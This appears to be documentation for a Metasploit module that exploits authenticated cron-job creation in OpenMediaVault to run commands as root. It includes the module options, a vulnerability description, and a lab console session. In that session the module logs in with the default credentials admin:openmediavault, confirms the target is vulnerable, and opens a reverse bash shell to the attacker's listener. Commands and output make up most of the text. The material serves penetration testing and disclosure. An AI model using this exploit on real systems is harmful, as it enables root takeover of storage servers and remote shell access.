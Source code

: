 ```msf
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path of the OpenMediaVault web application
  URIPATH                     no        The URI to use for this exploit (default is random)
  USERNAME   admin            yes       The OpenMediaVault username to authenticate with
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to liste
                                      n on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  OpenMediaVault allows an authenticated user to create cron jobs as root on the system.
  An attacker can abuse this by sending a POST request via rpc.php to schedule and execute
  a cron entry that runs arbitrary commands as root on the system.
  All OpenMediaVault versions including the latest release 7.3.1-1 are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2013-3632
  https://packetstormsecurity.com/files/178526
  https://attackerkb.com/topics/zl1kmXbAce/cve-2013-3632


View the full module info with the info -d command.
```
### openmediavault_7.0-32-amd64.iso appliance Unix command - cmd/unix/reverse_bash
```msf
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > check

[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] 192.168.201.6:80 - The target is vulnerable. Version 7.0.pre.32
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target is vulnerable. Version 7.0.pre.32
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[+] Cron payload entry successfully removed.
[*] Command shell session 1 opened (192.168.201.8:4444 -> 192.168.201.6:60814) at 2024-07-03 12:47:54 +0000

id
```